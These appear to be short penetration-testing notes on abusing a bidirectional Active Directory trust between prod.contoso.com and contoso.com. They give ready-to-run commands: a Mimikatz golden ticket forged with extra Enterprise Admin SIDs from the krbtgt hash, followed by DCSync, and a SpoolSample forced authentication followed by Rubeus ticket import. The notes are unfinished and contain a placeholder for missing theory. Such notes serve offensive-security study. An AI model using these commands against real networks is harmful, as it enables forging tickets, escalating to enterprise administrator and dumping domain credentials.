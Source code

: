Bidirecctional trust between the prod.contoso.com and the contoso.com domain

**EXTRA SIDS:**

(Add some theory here)
To create a golden ticket with extraSIDs(in this case enterprise admins) with the krbtgt passwd hash:

`kerberos::golden /user:h4x /domain:origin domain /sid:SID-of-origin-domain /krbtgt:krbtgt_passwdhash /sids:SID_of_target_domain-519 /ptt`

Then DcSync. The DcSync will work since the trust between prod.contoso.com and contoso.com is bidirecctional. Meaning that the KDC from contoso.com trusts the KDC from prod.contoso.com

**PRINTERS:**

First force an authentication with SpoolSample to obtain a TGT from another domain(contoso.com), then import that TGT with rubeus and then dcsync.

Forcing the auth with spoolsample:

`.\SpoolSample.exe rdc01.contoso.com appsrv01.prod.contoso.com`

Importing the ticket with Rubeus:

`Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+...`
